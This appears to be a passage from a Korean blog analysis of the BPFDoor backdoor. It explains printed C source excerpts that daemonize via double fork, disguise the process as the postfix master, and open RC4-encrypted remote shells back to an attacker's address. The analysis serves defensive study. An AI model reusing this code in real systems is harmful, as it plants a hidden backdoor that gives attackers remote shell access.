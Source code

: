 TCP, UDP, ICMP 데이터를 받을 경우 각 프로토콜에 맞게 구조체로 저장된다  
`magic_packet` 구조체에는 헤더를 제외한 페이로드의 내용이 들어간다  

이외의 프로토콜은 별다른 처리 없이 무시된다  
<br>

---

```c
pid = fork();
if (pid) {
        waitpid(pid, NULL, WNOHANG);
}
else {
        int cmp = 0;
        char sip[20] = {0};
        char pname[] = {0x2f, 0x75, 0x73, 0x72, 0x2f, 0x6c, 0x69, 0x62, 0x65, 0x78, 0x65, 0x63, 0x2f, 0x70, 0x6f, 0x73, 0x74, 0x66, 0x69, 0x78, 0x2f, 0x6d, 0x61, 0x73, 0x74, 0x65, 0x72, 0x00}; 
											// /usr/libexec/postfix/master

        if (fork()) exit(0);
        chdir("/");
        setsid();
        signal(SIGHUP, SIG_DFL);
        memset(argv0, 0, strlen(argv0));
        strcpy(argv0, pname); // sets process name (/usr/libexec/postfix/master) 
        prctl(PR_SET_NAME, (unsigned long) pname);
```

P2는 자식 프로세스(P3)를 생성하고 P3가 종료되기를 기다린다  
P3가 또 자식 프로세스(P4)를 생성하고 P3는 종료되어 P2가 회수한다  

P4는 작업 디렉토리를 홈 디렉토리로 변경 후 세션 리더가 되어 데몬 프로세스가 되어 동작한다  
굳이 이렇게 하는 이유는 P4에서 작업이 진행되는 동안 P2는 끊기지 않고 while문을 계속 돌면서 패킷을 잡아내기 위한 것으로 보인다  

P4는 프로세스명을 `/usr/libexec/postfix/master`{: .filepath}로 하여 정상적인 프로세스로 위장한다  
변종에 따라 위장하는 프로세스명이 달라질 수 있다  
<br>

---

```c
rc4_init(mp->pass, strlen(mp->pass), &crypt_ctx);
rc4_init(mp->pass, strlen(mp->pass), &decrypt_ctx);

cmp = logon(mp->pass);
switch(cmp) {
        case 1:
                strcpy(sip, inet_ntoa(ip->ip_src));
                getshell(sip, ntohs(tcp->th_dport));
                break;
        case 0:
                scli = try_link(bip, mp->port);
                if (scli > 0)
                        shell(scli, NULL, NULL);
                break;
        case 2:
                mon(bip, mp->port);
                break;
}
exit(0);
```
